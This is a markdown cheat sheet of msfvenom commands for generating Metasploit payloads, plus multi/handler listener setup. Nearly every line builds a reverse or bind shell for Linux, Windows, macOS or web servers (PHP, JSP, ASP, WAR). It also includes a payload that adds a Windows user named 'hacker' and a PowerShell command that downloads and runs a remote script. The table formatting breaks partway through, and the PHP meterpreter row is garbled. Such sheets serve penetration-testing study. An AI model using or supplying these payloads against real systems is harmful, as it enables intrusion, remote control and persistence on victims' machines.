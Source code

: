 ## MSFVenom Cheatsheet


|MSFVenom Payload Generation One-Liner|Description|
|-------------------------------------|-----------|
|msfvenom -l payloads|List available payloads|
|msfvenom -p PAYLOAD --list-options|List payload options|
|msfvenom -p PAYLOAD -e ENCODER -f FORMAT -i ENCODE COUNT LHOST=IP|Payload Encoding|
|msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f elf > shell.elf|Linux Meterpreter reverse shell x86 multi stage|
msfvenom -p linux/x86/meterpreter/bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 	Linux Meterpreter bind shell x86 multi stage
msfvenom -p linux/x64/shell_bind_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 	Linux bind shell x64 single stage
msfvenom -p linux/x64/shell_reverse_tcp RHOST=IP LPORT=PORT -f elf > shell.elf 	Linux reverse shell x64 single stage
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe 	Windows Meterpreter reverse shell
msfvenom -p windows/meterpreter_reverse_http LHOST=IP LPORT=PORT HttpUserAgent="Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/73.0.3683.103 Safari/537.36" -f exe > shell.exe 	Windows Meterpreter http reverse shell
msfvenom -p windows/meterpreter/bind_tcp RHOST= IP LPORT=PORT -f exe > shell.exe 	Windows Meterpreter bind shell
msfvenom -p windows/shell/reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe 	Windows CMD Multi Stage
msfvenom -p windows/shell_reverse_tcp LHOST=IP LPORT=PORT -f exe > shell.exe 	Windows CMD Single Stage
msfvenom -p windows/adduser USER=hacker PASS=password -f exe > useradd.exe 	Windows add user
msfvenom -p osx/x86/shell_reverse_tcp LHOST=IP LPORT=PORT -f macho > shell.macho 	Mac Reverse Shell
msfvenom -p osx/x86/shell_bind_tcp RHOST=IP LPORT=PORT -f macho > shell.macho 	Mac Bind shell
msfvenom -p cmd/unix/reverse_python LHOST=IP LPORT=PORT -f raw > shell.py 	Python Shell
msfvenom -p cmd/unix/reverse_bash LHOST=IP LPORT=PORT -f raw > shell.sh 	BASH Shell
msfvenom -p cmd/unix/reverse_perl LHOST=IP LPORT=PORT -f raw > shell.pl 	PERL Shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=PORT -f asp > shell.asp 	ASP Meterpreter shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.jsp 	JSP Shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=IP LPORT=PORT -f war > shell.war 	WAR Shell
msfvenom -p php/meterpreter_reverse_tcp LHOST=IP LPORT=PORT -f raw > shell.php cat shell.php 	pbcopy && echo '?php '
msfvenom -p php/reverse_php LHOST=IP LPORT=PORT -f raw > phpreverseshell.php 	Php Reverse Shell
msfvenom -a x86 --platform Windows -p windows/exec CMD="powershell \"IEX(New-Object Net.webClient).downloadString('http://IP/nishang.ps1')\"" -f python 	Windows Exec Nishang Powershell in python
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/shikata_ga_nai -b "\x04\xA0" 	Bad characters shikata_ga_nai
msfvenom -p windows/shell_reverse_tcp EXITFUNC=process LHOST=IP LPORT=PORT -f c -e x86/fnstenv_mov -b "\x04\xA0" 	Bad characters fnstenv_mov
Multihandler Listener

To get multiple session on a single multi/handler, you need to set the ExitOnSession option to false and run the exploit -j instead of just the exploit. For example, for meterpreter/reverse_tcp payload,

msf>use exploit/multi/handler  
msf>set payload windows/meterpreter/reverse_tcp  
msf>set lhost <IP>  
msf>set lport <PORT>  
msf> set ExitOnSession false  
msf>exploit -j  

The -j option is to keep all the connected session in the background.